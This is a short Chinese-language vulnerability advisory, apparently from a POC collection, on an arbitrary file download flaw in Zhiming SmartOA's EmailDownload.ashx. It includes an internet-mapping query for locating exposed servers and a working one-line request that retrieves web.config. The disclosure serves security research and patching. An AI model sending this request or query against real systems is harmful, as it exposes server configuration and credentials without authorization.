 # 智明 SmartOA EmailDownload.ashx 任意文件下载漏洞

## 漏洞描述

智明 SmartOA EmailDownload.ashx文件存在任意文件下载漏洞，通过漏洞可下载服务器上的敏感文件，查看敏感信息

## 漏洞影响

```
智明 SmartOA
```

## 网络测绘

```
app="智明协同-SmartOA"
```

## 漏洞复现

登录页面

![image-20220520133519986](images/202205201335202.png)

验证POC

```
/file/EmailDownload.ashx?url=~/web.config&name=web.config
```

![image-20220520133538762](images/202205201335862.png)
